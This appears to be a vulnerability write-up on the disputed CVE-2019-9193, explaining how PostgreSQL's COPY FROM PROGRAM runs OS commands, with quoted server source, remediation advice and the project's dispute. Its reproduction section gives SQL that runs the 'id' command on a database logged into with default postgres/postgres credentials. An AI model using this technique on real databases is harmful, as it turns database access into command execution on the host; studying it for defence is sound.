


# CVE-2019-9193 (Disputed) PostgreSQL Privileged Command Execution

## Vulnerability Background
- **`COPY TO/FROM PROGRAM`:** A PostgreSQL feature that lets an authorized database role run an external program as the operating-system account that owns the PostgreSQL server process and exchange data with that program.

**Status note:** PostgreSQL explicitly states that CVE-2019-9193 is not a security vulnerability. The behavior is an intentional privileged feature, not a privilege-boundary bypass. The CVE record retains the identifier but records this dispute.

## Vulnerability Mechanism
PostgreSQL 9.3 introduced `COPY TO/FROM PROGRAM`. A database superuser can use it to execute an operating-system command as the PostgreSQL server account. In newer releases, the predefined role that grants this capability is `pg_execute_server_program`; `pg_read_server_files` is not sufficient to execute a program.

The code path and demonstration below accurately show privileged command execution, but they do not show an attacker gaining a capability that the role was not intended to have. Treat the example as a dangerous-feature/configuration demonstration, not as an exploit of a PostgreSQL security boundary.

## Vulnerability Location
1. At line **787** of the **src \backend \commands \copy .c** file, the `DoCopy` function is the entry function for executing `COPY` commands. According to `COPY` type ( `TO` or `FROM`) calls the corresponding handler. Used to parse `COPY` commands and extract command types (`COPY FROM`) and related parameters (such as table names, filenames, options, etc.). Line **799** checks whether the user has sufficient permissions (`superuser()` function checks whether the current user is a superuser) to execute `COPY FROM PROGRAM`. For example, in `COPY FROM`, call the `BeginCopyFrom` function in **979** to initialize the `COPY` operation.

   ```c
   void
   DoCopy(ParseState *pstate, const CopyStmt *stmt,
   	   int stmt_location, int stmt_len,
   	   uint64 *processed)
   {
   	CopyState	cstate;
   	bool		is_from = stmt->is_from;
   	bool		pipe = (stmt->filename == NULL);
   	Relation	rel;
   	Oid			relid;
   	RawStmt    *query = NULL;
   
   	/* Disallow COPY to/from file or program except to superusers. */
   	if (!pipe && !superuser())
   	{
   		if (stmt->is_program)
   			ereport(ERROR,
   					(errcode(ERRCODE_INSUFFICIENT_PRIVILEGE),
   					 errmsg("must be superuser to COPY to or from an external program"),
   					 errhint("Anyone can COPY to stdout or from stdin. "
   							 "psql's \\copy command also works for anyone.")));
   		else
   			ereport(ERROR,
   					(errcode(ERRCODE_INSUFFICIENT_PRIVILEGE),
   					 errmsg("must be superuser to COPY to or from a file"),
   					 errhint("Anyone can COPY to stdout or from stdin. "
   							 "psql's \\copy command also works for anyone.")));
   	}
   	// ...
   	if (is_from)
   	{
   		Assert(rel);
   
   		/* check read-only transaction and parallel mode */
   		if (XactReadOnly && !rel->rd_islocaltemp)
   			PreventCommandIfReadOnly("COPY FROM");
   		PreventCommandIfParallelMode("COPY FROM");
   
   		cstate = BeginCopyFrom(pstate, rel, stmt->filename, stmt->is_program,
   							   NULL, stmt->attlist, stmt->options);
   		*processed = CopyFrom(cstate);	/* copy from file to database */
   		EndCopyFrom(cstate);
   	}
       //...
   }
   ```

2. At line **3032**, line **3170** of the `BeginCopyFrom` function passes `stmt->filename` to `cstate->filename`, then checks whether `cstate->filename` is a `COPY FROM PROGRAM` operation, `OpenPipeStream` A pipeline is opened to an external program, and subsequent `COPY FROM` operations will read data from this pipe.

   ```c
   static CopyState
   BeginCopy(ParseState *pstate, bool is_from, Relation rel, RawStmt *raw_query, Oid queryRelId, List *attnamelist, List *options)
   {
       //  ...
       if (data_source_cb)
   	{
   		cstate->copy_dest = COPY_CALLBACK;
   		cstate->data_source_cb = data_source_cb;
   	}
   	else if (pipe)
   	{
   		Assert(!is_program);	/* the grammar does not allow this */
   		if (whereToSendOutput == DestRemote)
   			ReceiveCopyBegin(cstate);
   		else
   			cstate->copy_file = stdin;
   	}
   	else
   	{
   		cstate->filename = pstrdup(filename);
   
   		if (cstate->is_program)
   		{
   			cstate->copy_file = OpenPipeStream(cstate->filename, PG_BINARY_R);
   			if (cstate->copy_file == NULL)
   				ereport(ERROR,
   						(errcode_for_file_access(),
   						 errmsg("could not execute command \"%s\": %m",
   								cstate->filename)));
   		}
           // ...
       }
       // ...
       return cstate;
   }
   ```

   In the **src \backend \storage \file \fd .c** file, line **2201**, the OpenPipeStream function executes the external program and returns a file pointer for subsequent data reading. Line 2224** uses `popen` to open a pipe to an external program to execute `command`. The final incoming `PROGRAM` is executed here. The `BeginCopyFrom` function stores the result in `cstate->copy_file`, the `DoCopy` function stores the result in `cstate`, and then calls `CopyFrom` The function copies data from files (or other input sources) to database tables.

   ```c
   FILE *
   OpenPipeStream(const char *command, const char *mode)
   {
   	FILE	   *file;
   	int			save_errno;
   // ...
   TryAgain:
   	fflush(stdout);
   	fflush(stderr);
   	pqsignal(SIGPIPE, SIG_DFL);
   	errno = 0;
   	file = popen(command, mode);
   	save_errno = errno;
   	pqsignal(SIGPIPE, SIG_IGN);
   	errno = save_errno;
   	if (file != NULL)
   	{
   		AllocateDesc *desc = &allocatedDescs[numAllocatedDescs];
   
   		desc->kind = AllocateDescPipe;
   		desc->desc.file = file;
   		desc->create_subid = GetCurrentSubTransactionId();
   		numAllocatedDescs++;
   		return desc->desc.file;
   	}
   // ...
   }
   ```

## Remediation
No PostgreSQL security patch exists for this CVE because the project considers `COPY TO/FROM PROGRAM` to be working as designed. Do not grant superuser or `pg_execute_server_program` to untrusted roles. Audit role membership, revoke the capability where it is unnecessary, and constrain the PostgreSQL service account with operating-system permissions, containers, or mandatory access controls.

## Affected Versions
The CVE record names PostgreSQL 9.3 through 11.2, but this is not a conventional affected-version range: the underlying privileged feature remains available by design in later releases. Exposure depends on whether an untrusted user has superuser or `pg_execute_server_program` privileges.

## Environment Setup
Default port 5432, default username and password are postgres/postgres.



## Vulnerability Reproduction
1. Connect to the database using an administrator account

```bash
psql -h 127.0.0.1 -U postgres -p 5432
```

2. Enter the following commands in sequence

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
```

Among them, the `FROM PROGRAM` statement executes the command id and saves the result in the cmd_exec table

3. Query the cmd_exec table to get the ID

```sql
SELECT * FROM cmd_exec;
```



## PoC Analysis
1. Execute deletion of tables that may exist to save command output

```sql
DROP TABLE IF EXISTS cmd_exec;
```

2. Create a table to store command output

```sql
CREATE TABLE cmd_exec(cmd_output text);
```

3. Execute the system command via "COPY FROM PROGRAM", which here is to get the ID

```sql
COPY cmd_exec FROM PROGRAM 'id';
```

4. Query the cmd_exec table to get the running result, which here is the ID

```sql
SELECT * FROM cmd_exec;
```

## References
[(CVE-2019-9193) PostgreSQL High-Privilege Command Execution Vulnerability - FreeBuf Cybersecurity Industry Portal](https://www.freebuf.com/vuls/261361.html)

[Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest | by Greenwolf | Greenwolf Security | Medium](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

[GitHub Advisory Database: CVE-2019-9193 (disputed)](https://github.com/advisories/GHSA-j83j-hfqj-cf5p)

[PostgreSQL: CVE-2019-9193: Not a Security Vulnerability](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/)
